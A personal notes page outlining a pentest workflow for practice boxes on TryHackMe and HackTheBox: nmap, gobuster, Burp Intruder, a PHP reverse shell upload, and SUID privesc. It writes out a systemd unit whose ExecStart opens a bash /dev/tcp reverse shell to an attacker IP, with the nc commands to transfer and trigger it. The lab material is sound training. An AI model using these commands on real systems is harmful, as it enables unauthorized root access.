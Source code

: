 ```yaml
---
date: 2022-08-28
---
```


PenTest Methodology: Quick Example
==================================

This is a quick example of pentesting using boxes from
[TryHackMe](https://tryhackme.com/) or
[HackTheBox](https://www.hackthebox.com/). It's generally not *that*
easy but the general idea is the same.

Information Gathering
---------------------

Generally not required with box pwning as the information are in front
of our eyes.

See [[what-is-reconnaissance-footprinting]]# for more information.

Enumeration/Scanning
--------------------

### Port Scanning with `nmap`

One of the first step of a pentesting is "reconnaissance" or finding
information regarding the target. To gather information about the target
machine, one can use `nmap`, a free, open-source and powerful tool used
to discover hosts and services on a computer network.

A first step toward that would be to use the following command:

``` sh
nmap -sV <target_ip>
```

#### Often Used Flags

| nmap flag | Description                                                                         |
|===========|=====================================================================================|
| -sV       | Attempts to determine the version of the services running                           |
| -p        | `<x>` or -p- Port scan for port `<x>` or scan all ports                             |
| -Pn       | Disable host discovery and just scan for open ports                                 |
| -A        | Enables OS and version detection, executes in-build scripts for further enumeration |
| -sC       | Scan with the default nmap scripts                                                  |
| -v        | Verbose mode                                                                        |
| -sU       | UDP port scan                                                                       |
| -sS       | TCP SYN port scan                                                                   |

### Locating Directories

OWASP DirBuster is often used to brute force your way to a list of often
used directory names. We will, however, use GoBuster which is a similar
but modern and fast tool written in Go.

It is available to download on Kali Linux 2020.1+:
`sudo apt-get install gobuster` or on
[GitHub](https://github.com/OJ/gobuster).

Simple command:

``` sh
gobuster dir -u http://<ip>:<port> -w <word_list_location>
```

Note: On Kali Linux, word lists are under `/usr/share/wordlists`. For a
quick brute force, `directory-list-2.3-small.txt` is a good start.

#### Often Used Flags

| GoBuster flag     | Description                               |
|===================|===========================================|
| -e                | Print the full URLs in your console       |
| -u                | The target URL                            |
| -w                | Path to your word list                    |
| -U and -P         | Username and Password for Basic Auth      |
| -p <x>            | Proxy to use for requests                 |
| -c <http_cookies> | Specify a cookie for simulating your auth |

### Fuzz a Page

We can use Burp Suite's "Intruder" to fuzz a website.

What we want to achieve here is test which file extension is allowed by
the website.

First we need to create a list (or use one from the Enterprise edition).

We intercept the `POST` request used to upload file and send it to the
Intruder tool. Using the "Attack type" called "Sniper", we add our
Payload to the file extension of the request.

On the "Payloads" tab, we add our list. On the "Options" tab we can use
the "Grep - Match" feature to flag result items with responses matching
an expression (for example "Extension not allowed"). This is helpful to
quickly find which extension doesn't return an error.

Time to start the attack!

Exploitation
------------

### Upload a Reverse Shell

There are a lot of reverse (PHP) shell out there. A famous one is from
[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
although [YAPS](https://github.com/Nickguitar/YAPS) has gathered some
reconnaissance as well.

Update your IP address and the port to use in the file and upload the
file to the website (change file extension if necessary).

Next, use netcat to connect to listen to incoming connections:

``` sh
nc -lvnp <port_num>
```

Privilege Escalation
--------------------

Also called *privesc*, is the action of gaining access to root on a
machine by one mean or another.

Using SUID file is a great way to gain privesc. To find SUID files,
type:

``` sh
find / -perm -u=s -type f 2>/dev/null
```

This show every SUID file type owned by root user on root file system
and below. `stderr` (standard error) is redirected to `/dev/null` to
prevent errors from polluting the results.

Let's say we found binary `systemctl` with SUID. `systemctl` is used to
start, stop and generally manage services. For this reason it's best to
let privilege users only be able to use it.

### Create the Payload

We can craft a `systemd` unit file which execute a payload as root user:

``` service
[Unit]
Description=Open a shell with root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<client_ip>/<port_1> 0>&1'

[Install]
WantedBy=multi-user.target
```

The `User` is important to let `systemd` we want to execute as *root*.
Here, `ExecStart` is a simple one-line bash reverse shell.

`<port>` is the port we will use to connect later.

### Upload the Payload

Next, we need to upload that payload to our server (or write it as a one
liner). Once again we can use netcat for this task. On the target
machine (i.e. through our reverse proxy):

``` sh
nc -vl <port_2> > /tmp/rootshell.service
```

Folder is `/tmp` as it should be writable even to non root user.

From our client machine, we send the file:

``` sh
nc -n <target_ip> <port_2> < rootshell.service
```

### Connect to the Host and Gain Privesc

This is getting confusing but we need another netcat session to listen
to the root shell:

``` sh
nc -lvnp <port_1>
```

On the target machine (through the first reverse proxy) execute the
payload using `systemctl`:

``` sh
systemctl enable /tmp/rootshell.service
systemctl start rootshell.service
```

:::{.highlight-block}
If you get an error like although you have an `[Install]` section:

``` txt
The unit files have no [Install] section. They are not meant to be enabled
using systemctl.
```

It's because old version of `systemctl` only loads services from a set
of pre-defined paths. Use `systemctl link /tmp/rootshell.service` first
to allow loading (in later version this is done automatically with
`enable` command).
:::

And voilà!

Post-Exploitation
-----------------

Depending on the system there may be post-exploitation stages. This
stage generally involves:

1.  Pivoting: what other hosts can be targeted
2.  What additional information can we gather from the host now that we
    are a privileged user
3.  Covering your tracks
4.  Reporting
